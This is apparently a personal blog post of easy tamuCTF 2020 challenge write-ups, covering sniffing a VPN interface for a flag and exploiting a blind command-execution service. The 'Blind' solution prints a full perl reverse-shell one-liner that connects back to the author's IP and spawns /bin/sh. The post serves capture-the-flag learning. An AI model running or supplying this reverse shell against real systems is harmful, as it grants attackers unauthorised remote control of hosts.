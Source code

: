 ```yaml
---
layout: blogpost
title:  "tamuCTF - Easy Challenge Writeups"
date:   2020-03-24 03:32:01 -0300
categories: ctf
---
```


## Category: 
Network/Pentest
## Difficulty: 
Easy
## Challenge: 
Listen
## Description: 
Just listen
<br>
## Solution:

This challenge was pretty straightforward. We are given a ovpn file and connect to their network. After that I opened up wireshark to listen on the tun0 interface and eventually got a packet which contained the flag.
![listen_flag](/assets/images/ctf/tamu2020/listen_flag.PNG)
<br>


## Category: 
Misc
## Difficulty: 
Easy
## Challenge: 
Blind
## Description: 
nc challenges.tamuctf.com 3424
<br>
## Solution:

```console
Execute: whoami
0
Execute: ls
0
Execute: ip addr
127
```
<br>At this point it seems like were just getting the return value as 127 is the unix standard error number for "command not found" so we need to find a command which will let us reverse shell. After trying python, python3, python2, nc, and netcat, I tried perl which just hung instead of sending an error message, so it was waiting for more input. I exited the shell and sent this in a new session
<br>
```perl
perl -e 'use Socket;$i="my_ip";$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec(
"/bin/sh -i");};
```
<br>I popped a reverse shell and ran cat flag.txt to get gigem{r3v3r53_5h3ll5}